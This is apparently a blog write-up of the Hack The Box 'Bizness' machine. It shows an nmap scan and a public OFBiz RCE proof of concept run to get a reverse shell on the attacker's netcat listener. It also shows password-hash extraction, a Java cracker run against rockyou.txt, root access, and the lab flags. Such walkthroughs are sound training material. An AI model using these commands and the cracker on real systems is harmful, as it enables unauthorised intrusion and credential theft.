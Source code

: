 ```yaml
---
layout: post
title: "Bizness"
description: "Bizness is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -p- 10.10.11.252
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2024-01-06 21:25 CET
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.028s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http       nginx 1.18.0
|_http-title: Did not follow redirect to <https://bizness.htb/>
|_http-server-header: nginx/1.18.0
443/tcp   open  ssl/http   nginx 1.18.0
|_http-title: BizNess Incorporated
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
|_http-server-header: nginx/1.18.0
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
35057/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 51.07 seconds
```

Modify hosts file:
```
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts | grep 10.10.11.252
10.10.11.252 bizness.htb
```


## Enumerate HTTPS (Port 443)
Browsing to the /webtools directory reveals credentials: `admin:ofbiz`
![Pasted image 20240715111438.png](/images/Pasted image 20240715111438.png){: .normal }


Looks like we can’t login.
![Pasted image 20240715111435.png](/images/Pasted image 20240715111435.png){: .normal }


Copyright reveals the exact version of: `OFBiz 18.12`.
![Pasted image 20240715111431.png](/images/Pasted image 20240715111431.png){: .normal }


Found a [PoC python script](https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/blob/main/exploit.py).
```
┌──(kali㉿kali)-[/tmp]
└─$ python3 exploit.py <https://bizness.htb> shell 10.10.14.140:9001
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Not Sure Worked or not
```

```
┌──(kali㉿kali)-[/tmp/Ofbiz-Exploit]
└─$ nc -lnvp 9001            
listening on [any] 9001 ...
connect to [10.10.14.140] from (UNKNOWN) [10.10.11.252] 43418
bash: cannot set terminal process group (716): Inappropriate ioctl for device
bash: no job control in this shell
ofbiz@bizness:/opt/ofbiz$ id
uid=1001(ofbiz) gid=1001(ofbiz-operator) groups=1001(ofbiz-operator)
```

For execution of the PoC to work, first download ysoserial from: [link](https://github.com/frohoff/ysoserial). Next, change the Java version to Java 11.
```
sudo update-java-alternatives -s java-1.11.0-openjdk-amd64
```

User flag: `a53d40da028b650f1edbae69116ee996`
```
ofbiz@bizness:~$ cat user.txt
a53d40da028b650f1edbae69116ee996
```


## Privilege Escalation
Found the derby database password hash.
```
ofbiz@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0$ grep -arin -o -E '(\\w+\\W+){0,5}password(\\W+\\w+){0,5}'
./c54d0.dat:21:Password="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled
```

Analyzing the [source code](https://github.com/apache/ofbiz-framework/blob/trunk/framework/base/src/main/java/org/apache/ofbiz/base/crypto/HashCrypt.java) we find useful functions.
```java
public static String cryptBytes(String hashType, String salt, byte[] bytes) {
        if (hashType == null) {
            hashType = "SHA";
        }
        if (salt == null) {
            salt = RandomStringUtils.random(SECURE_RANDOM.nextInt(15) + 1, CRYPT_CHAR_SET);
        }
        StringBuilder sb = new StringBuilder();
        sb.append("$").append(hashType).append("$").append(salt).append("$");
        sb.append(getCryptedBytes(hashType, salt, bytes));
        return sb.toString();
    }
```

```java
private static String getCryptedBytes(String hashType, String salt, byte[] bytes) {
        try {
            MessageDigest messagedigest = MessageDigest.getInstance(hashType);
            messagedigest.update(salt.getBytes(StandardCharsets.UTF_8));
            messagedigest.update(bytes);
            return Base64.encodeBase64URLSafeString(messagedigest.digest()).replace('+', '.');
        } catch (NoSuchAlgorithmException e) {
            throw new GeneralRuntimeException("Error while comparing password", e);
        }
    }
```

These functions create the resulting hash that we found. We can deduct that the hash we found is base64 url safe encoded and that a salt was used. We can use these 2 functions and use rockyou.txt to try and crack it by going over each line in rockyou.txt and call the cryptBytes function. Comparing the results to the hash we found in the seg0 folder will allow us to get the plaintext password.
```java
import org.apache.commons.codec.binary.Base64;

import java.io.BufferedReader;
import java.io.File;
import java.nio.charset.StandardCharsets;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.MessageDigest;
import java.security.NoSuchAlgorithmException;
import java.util.stream.Stream;
import java.io.IOException;
import java.io.FileReader;

public class Main {
    public static void main(String[] args) {

        try (BufferedReader reader = new BufferedReader(new FileReader("C:\\\\\\\\Users\\\\\\\\Giiker\\\\\\\\Downloads\\\\\\\\rockyou.txt"))) {
            String line;

            while ((line = reader.readLine()) != null) {
                byte[] bytes = line.getBytes(StandardCharsets.UTF_8);
                String hash = cryptBytes("SHA", "d", bytes);
                System.out.println(hash);
                if (hash.equals("$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I")){
                    System.out.println("[+] Password: " + line);
                    break;
                }
            }
        } catch (IOException ignored) {}
    }

    public static String cryptBytes(String hashType, String salt, byte[] bytes) {
        StringBuilder sb = new StringBuilder();
        sb.append("$").append(hashType).append("$").append(salt).append("$");
        sb.append(getCryptedBytes(hashType, salt, bytes));
        return sb.toString();
    }

    private static String getCryptedBytes(String hashType, String salt, byte[] bytes) {
        try {
            MessageDigest messagedigest = MessageDigest.getInstance("SHA");
            messagedigest.update("d".getBytes(StandardCharsets.UTF_8));
            messagedigest.update(bytes);
            return Base64.encodeBase64URLSafeString(messagedigest.digest()).replace('+', '.');
        } catch (NoSuchAlgorithmException e) {
            throw new RuntimeException("Error while comparing password", e);
        }
    }
}
```
Add files from: [Link](https://commons.apache.org/proper/commons-codec/download_codec.cgi) to the lib folder.


Found root password: `monkeybizness`.
```java
[+] Password: monkeybizness
```

Switch to the root user:
```
ofbiz@bizness:/opt/ofbiz$ su root
Password: monkeybizness
id
uid=0(root) gid=0(root) groups=0(root)
```

Root flag: `f8ab93ea2ca9ec64ad5dd1ce51a7c0e3`
```java
cat root.txt
f8ab93ea2ca9ec64ad5dd1ce51a7c0e3
```

## Pwned!
![Pasted image 20240715111120.png](/images/Pasted image 20240715111120.png){: .normal }
